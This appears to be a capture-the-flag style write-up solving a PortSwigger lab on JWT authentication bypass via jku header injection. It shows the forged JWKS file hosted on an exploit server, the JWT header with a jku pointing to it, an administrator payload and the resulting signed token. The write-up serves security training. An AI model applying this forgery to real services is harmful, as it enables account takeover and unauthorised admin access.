 
# JWT authentication bypass via jku header injection

This lab uses a JWT-based mechanism for handling sessions. The server supports the jku parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

To solve the lab, forge a JWT that gives you access to the admin panel at /admin, then delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter

Tip: We recommend familiarizing yourself with how to work with JWTs in Burp Suite before attempting this lab.

---------------------------------------------

References: 

- https://portswigger.net/web-security/jwt

- https://blog.pentesteracademy.com/hacking-jwt-tokens-jku-claim-misuse-2e732109ac1c



![img](images/JWT%20authentication%20bypass%20via%20jku%20header%20injection/1.png)

---------------------------------------------

It llok like the file “/.well-known/jwks.json” does not exist:



![img](images/JWT%20authentication%20bypass%20via%20jku%20header%20injection/2.png)


First I copied the public key part of the RSA key:



![img](images/JWT%20authentication%20bypass%20via%20jku%20header%20injection/3.png)


And create “/jwks.json” in the exploit server. I added the field "use": "sig":





![img](images/JWT%20authentication%20bypass%20via%20jku%20header%20injection/4.png)
![img](images/JWT%20authentication%20bypass%20via%20jku%20header%20injection/5.png)



```
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "36dbda36-552c-438b-ac4c-9e365fb78ec5",
            "n": "zdCdoh120Xnv9C_UywxJX78dtqOyMS42cXfmnjTYEuShgMd4yABQeUuObibikuytdaopdW0PtY1Q2AYOg0H6A4iBbTzRHNaN85IOb5J7mgiHHp7oIjDlQ6wajZsraj3US4hX3TdK3gcEG-h0EWpSh9A34yfq3HCKLdEVbV0XgRmI3N6Nc_VX5aIcGkoALHZBd9g179CfBtvtUu3cFPZA8eC9iv5xv1AyO4IdlOVdKjNernPu94LzzyYlHObHHWj-BaC5Px4J0jDymdPc9HaLm67nlA0aqZ6KA4HwzZHGJEb2UO_-Ya1HCsRhrnz2e2QRPVAOHgQkPWMKJb6vOFU5OQ"
        }
    ]
}
```


Then I created the JWT:




![img](images/JWT%20authentication%20bypass%20via%20jku%20header%20injection/6.png)


Header with:

- The same “kid” as the public key uploaded
- A “jku” value pointing to the file created in the exploit server

```
{
  "kid": "36dbda36-552c-438b-ac4c-9e365fb78ec5",
  "alg": "RS256",
  "jku": "https://exploit-0a3700d5034894e7808139f701b000a7.exploit-server.net/jwks.json"
}
```

Payload with:

- The “sub” value changed to the user administrator

``` 
{
  "iss": "portswigger",
  "sub": "administrator",
  "exp": 1683792794
}
``` 

The JWT:

```
eyJraWQiOiIzNmRiZGEzNi01NTJjLTQzOGItYWM0Yy05ZTM2NWZiNzhlYzUiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vZXhwbG9pdC0wYTM3MDBkNTAzNDg5NGU3ODA4MTM5ZjcwMWIwMDBhNy5leHBsb2l0LXNlcnZlci5uZXQvandrcy5qc29uIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2ODM3OTI3OTR9.mY28w-Jf8fMZzO_9qNug5rWXMG8bQq-zpuQLmsQnPPjLziXt5vHOESQeZcCs5wZaagVwkXU9IuRW0mvXsM5AwvuCDG1K22XIP_mL2-RNBQpN_qOE1HVJPIdy-Iq0F1V1DgEAYcNo9QQgcxX1AmhW9AQ0urD4qnLGk8leZYX-J4okBw-583qj2NsgX5zPan_JJ0bqupysw1cy8G9eR4h57wV1wM5oOiGhS5fX2gasKq5RSv4TUQ0Rk6FwONnmNhFJMNKn7HYRxGeoDv-A1118w49G6QSDqWsSuuFgCPy2oLQ-TGMDJBBDBGUNNy-serxOKJ7JjkY9qp1sC9E5hekzHQ
``` 



![img](images/JWT%20authentication%20bypass%20via%20jku%20header%20injection/7.png)


If done with Burp:



![img](images/JWT%20authentication%20bypass%20via%20jku%20header%20injection/8.png)
